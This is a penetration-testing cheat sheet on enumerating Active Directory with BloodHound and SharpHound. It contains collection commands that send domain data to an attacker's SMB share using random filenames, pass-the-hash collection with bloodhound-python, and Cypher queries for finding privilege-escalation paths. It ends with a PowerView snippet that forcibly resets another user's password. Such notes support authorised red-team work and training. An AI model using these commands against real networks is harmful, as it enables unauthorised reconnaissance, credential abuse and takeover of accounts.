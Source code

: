 ```yaml
---
description: AD enumeration - Bloodhound - Sharphound - Mapping - Graphs
---
```


# BloodHound

#### Data collection

```powershell
# Get all
SharpHound.exe -All

# DC Only
SharpHound.exe -DCOnly

# Computer only
SharpHound.exe -ComputerOnly

# Save to smbshare
sudo impacket-smbserver share ./ -smb2support -user zen -password zen
SharpHound.exe --memcache --outputdirectory \\10.10.11.10\share\ --zippassword ZenSharp --outputprefix ZEN --randomfilenames

# LDAP auth
SharpHound.exe -All --ldappassword zenpass --ldapusername zen
```

#### Other usefull flags

| Flag                | Description               |
| ------------------- | ------------------------- |
| `--randomfilenames` | Random files names output |
| `--outputdirectory` | Output directory          |
| `--zipfilename`     | Filename for zip          |
| `--zippassword`     | Password zip              |

#### Session loops

To see where users are connected we can use loops so SharpHound can find active sessions of users.&#x20;

| Flag             | Description                     |
| ---------------- | ------------------------------- |
| `--loop`         | Loop computer collection        |
| `--loopduration` | Loop duration                   |
| `--loopinterval` | Sleep interval                  |
| `--stealth`      | Only check systems to have data |

```powershell
SharpHound.exe -c Session --loop --loopduration 02:00:00 --loopinterval 00:01:00
```

#### Data collection from Linux

```bash
# Using hash
bloodhound-python -u 'admin' -p zen123 -d zencorp.local -ns 172.16.1.5 -c All

# Using hash
bloodhound-python -u 'admin' --hashes b18733e57ca3786565914d7136e0e79a -d zen.local -ns 172.16.1.5 -c All

# Using kerberos authentication
bloodhound-python -d zencorp.local -c DCOnly -u zen -p zen123 -ns 10.129.204.111 -k 
```

#### Queries

```powershell
# Search user
MATCH (u:User {name:"JOE@ZENCORP.LOCAL"}) RETURN u
MATCH (u:User) WHERE u.name = "JOE@ZENCORP.LOCAL" RETURN u

# Get Group memberships
MATCH (u:User {name:"JOE@ZENCORP.LOCAL"})-[r:MemberOf]->(joeGroups) 
RETURN joeGroups

# MemberOf Relationship
MATCH p=((n:User {name:"JOE@ZENCORP.LOCAL"})-[r:MemberOf]->(g:Group)) 
RETURN p

# MemberOf Relationship depth 1..* (1 -any)
MATCH p=((u:User {name:"JOE@ZENCORP.LOCAL"})-[r:MemberOf*1..]->(g:Group)) 
RETURN p

# Find path group name Help Desk
MATCH p=(n:User)-[r1:MemberOf*1..]->(g:Group)
WHERE nodes(p)[1].name CONTAINS 'HELPDESK'
RETURN p

# Find path group name Help Desk using =~
MATCH p=(n:User)-[r1:MemberOf*1..]->(g:Group)
WHERE nodes(p)[1].name =~ '(?i)helpdesk.*'
RETURN p

# ShortestPath from node that contains john to any node
MATCH p = shortestPath((n)-[*1..]->(c)) 
WHERE n.name =~ '(?i)john.*' AND NOT c=n 
RETURN p

# Find rights domain user should not have
MATCH p=(g:Group)-[r:Owns|WriteDacl|GenericAll|WriteOwner|ExecuteDCOM|GenericWrite|AllowedToDelegate|ForceChangePassword]->(c:Computer) 
WHERE g.name STARTS WITH "DOMAIN USERS" 
RETURN p

# Find all users with desriptions
MATCH (u:User) 
WHERE u.description IS NOT NULL 
RETURN u.name,u.description

# Find WriteSPN
MATCH p=((n)-[r:WriteSPN]->(m)) RETURN p
```

#### Cheatsheets

[https://gist.github.com/jeffmcjunkin/7b4a67bb7dd0cfbfbd83768f3aa6eb12](https://gist.github.com/jeffmcjunkin/7b4a67bb7dd0cfbfbd83768f3aa6eb12)[https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)

#### ForceChangePassword

```powershell
# Use powerview
Import-Module .\PowerView.ps1

# Save password
$SecPassword = ConvertTo-SecureString 'Password123' -AsPlainText -Force

# Create PSCredential object
$Cred = New-Object System.Management.Automation.PSCredential('ZENCORP\john', $SecPassword)

# Change password
Set-DomainUserPassword -Identity steven -AccountPassword $UserPassword -Credential $Cred -Verbose
```

